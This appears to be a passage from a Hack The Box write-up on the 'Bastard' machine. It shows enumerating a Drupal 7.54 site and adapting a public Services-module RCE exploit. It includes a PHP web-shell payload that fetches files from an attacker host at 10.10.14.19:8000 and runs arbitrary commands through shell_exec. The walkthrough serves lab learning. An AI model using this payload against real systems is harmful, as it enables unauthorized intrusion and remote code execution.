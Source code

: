 ```bash
Papers: No Results
```

There are a lot of RCEs in there. I need some way to slim down the exploits to investigate.

I take a look at the paths that nmap extracted from the site's `robots.txt`:

```
| /includes/ /misc/ /modules/ /profiles/ /scripts/ 
| /themes/ /CHANGELOG.txt /cron.php /INSTALL.mysql.txt 
| /INSTALL.pgsql.txt /INSTALL.sqlite.txt /install.php /INSTALL.txt 
|_/LICENSE.txt /MAINTAINERS.txt
```

In particular, I want to read `/CHANGELOG.txt` because that should give us a good idea of the exact Drupal version running on this machine.

The changelog informs us the latest update on the server was for Drupal 7.54.

Searching the web for "Drupal 7.54 exploits" returns an RCE exploit as the first result.

![Drupal web search RCE first result][drupal web search]

I skim this article but it's a lot of detail. I do notice, however, that the `Drupal 7.x Module Services - Remote Code Execution` exploit matches the article result from ambionics.com. I see from the comments at the top of the exploit that this refers to the same ambionics.com article:

```php
# Exploit Title: Drupal 7.x Services Module Remote Code Execution
# Vendor Homepage: https://www.drupal.org/project/services
# Exploit Author: Charles FOL
# Contact: https://twitter.com/ambionics 
# Website: https://www.ambionics.io/blog/drupal-services-module-rce
```

Reading through the exploit code, I see that it requires modification before we can use it. Specifically, the target hostname is hard-coded.

```php
$url = 'http://10.10.10.9/';
```

Additionally, at this point gobuster has partially progressed and identified a few directories, one of which is `/rest`. I had to modify the `endpoint_path` to this endpoint from the default in the script:

```php
$endpoint_path = '/rest';
```

I had some trouble executing my PHP payload and ended up copying the payload from [ippsec's excellent video walkthrough][ippsec video] of Bastard.

The modified snippet ended up looking like:

```php
$url = 'http://10.10.10.9/';
$endpoint_path = '/rest';
$endpoint = 'rest_endpoint';

$phpCode = <<<'EOF'
<?php
  if (isset($_REQUEST['fupload'])) {
    file_put_contents($_REQUEST['fupload'], file_get_contents("http://10.10.14.19:8000/" . $_REQUEST['fupload']));
  };

  if (isset($_REQUEST['fexec'])) {
    echo "<pre>" . shell_exec($_REQUEST['fexec']) . "</pre>";
  };
?>
```

[hackthebox]: https://www.hackthebox.eu
[ippsec]: https://twitter.com/ippsec
[ippsec video]: https://www.youtube.com/watch?v=lP-E5vmZNC0&t=1
[ms15-051]: https://www.exploit-db.com/exploits/37049
[drupal web search]: /assets/img/htb/bastard/drupal-vulns.png
[rce dir]: /assets/img/htb/bastard/rce-dir.png
[rce root]: /assets/img/htb/bastard/rce-root-shell.png
[rce systeminfo]: /assets/img/htb/bastard/rce-systeminfo.png